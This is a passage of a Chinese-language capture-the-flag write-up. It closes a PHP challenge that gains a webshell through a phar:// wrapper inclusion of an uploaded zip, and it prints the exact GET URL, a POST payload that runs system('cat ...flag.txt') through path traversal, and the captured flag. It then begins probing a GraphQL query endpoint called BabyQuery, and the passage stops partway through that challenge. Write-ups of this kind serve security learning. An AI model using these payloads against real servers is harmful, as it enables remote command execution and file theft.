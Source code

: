 发现sky.php竟然可以正常解压！

这就意味着我们用伪协议可以正常使用，并且getshell!

并且这也说明了为什么不能直接只压缩单个的shell，因为这也肯定解压会破损，而加入随便一个txt等于起到了保护作用，防止后面shell文件破损，这可能和zip的文件格式有关，有兴趣的可以深入研究。

所以我们写入文件后，payload如下

get请求

http://120.24.215.80:10012/?page=phar://./log/PK%03%04%0a.log/sky

post请求

sky=system('cat ../../../../d124abbe4cb6aa1621a8ca9519c0f5bf_flag.txt');

即可拿到flag：

flag{61894b21be75260c4964065b1eecec4d}

08

BabyQuery

打开页面是一个查询界面

![](img/70635d3b29393e18e4bfb8e47781ee2a.png)

我们抓包研究一下:

发现查询时候发出的数据为

query=%7B+getscorebyid(id%3A+%22GE%3D%3D%3D%3D%3D%3D%22)%7B+id+name+score+%7D+%7D

我们解码一下

query={ getscorebyid(id: "GE======"){ id name score } }

并且根据url，判断出是graphql，一个查询API

我们随便改一下

query={ getscorebyid(id: "GE"){ id name score } }

发现报错

[GraphQLLocatedError('Incorrect padding',), GraphQLLocatedError('Incorrect padding',), GraphQLLocatedError('Incorrect padding',)]

填充错误，那我们不改变他的结构再试试

query={ getscorebyid(id: "11======"){ id name score } }

又报错了
